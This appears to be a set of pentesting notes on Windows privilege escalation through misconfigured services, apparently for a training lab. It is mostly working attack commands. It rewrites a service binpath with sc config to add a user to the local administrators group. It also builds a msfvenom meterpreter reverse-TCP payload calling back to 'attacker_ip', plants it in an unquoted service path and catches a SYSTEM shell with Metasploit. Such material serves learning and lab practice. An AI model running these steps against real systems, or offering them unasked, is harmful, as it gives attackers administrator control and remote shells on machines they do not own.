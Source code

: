 # Service Permissions 

## Binary Path 

- It tells Windows which executable file (program or service binary) should run when the service starts
- Basically, it’s the path to the .exe (or .dll under svchost) that implements the service 
- If an attacker has permission to modify a service’s configuration (SERVICE_CHANGE_CONFIG), they can change the binPath to point to a malicious executable

**Victim** 

```
// to find the vulnerability using the powerup and now open powershell with execution policies bypass 
powershell -ep bypass 
. .\PowerUp.ps1 
Invoke-AllChecks 

// for manual checking 
C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wuvc daclsvc

// or 
C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wuvc Everyone * 

// Notice that the output suggests that the everyone has the “SERVICE_CHANGE_CONFIG” permission which could lead to change the path of the executable 

// now make the exploitation 
sc config daclsvc binpath= "net localgroup administrators user /add"

// check the binpath
sc qc daclsvc
sc start daclsvc

// now we made the user as administrator 
net localgroup administrators 
Administrator 
user 
```

## Unqouted Service Paths 

When a Windows service is created, it has a binary path (binPath / ImagePath) that tells Windows location of the service’s executable. If the path is not wrapped in quotes, Windows doesn’t know where the spaces end and tries different interpretations when starting the service

**Victim** 

```
// Open command prompt
sc qc unquotedsvc

// Notice that the “BINARY_PATH_NAME” field displays a path that is not confined between quotes
```

**Attacker** 

```
// generating the payload 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker_ip -f exe -o common.exe 

// Now transfer the common.exe in the windows machine and Place common.exe in ‘C:\Program Files\Unquoted Path Service’ 

// now start the metasploit framework 
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp 
set lhost attacker_ip
run 

// now start the unquote services 
sc start unquotedsvc

// now we gained the reverse shell of administrator
getuid 
Server username: NT AUTHORITY\SYSTEM
```
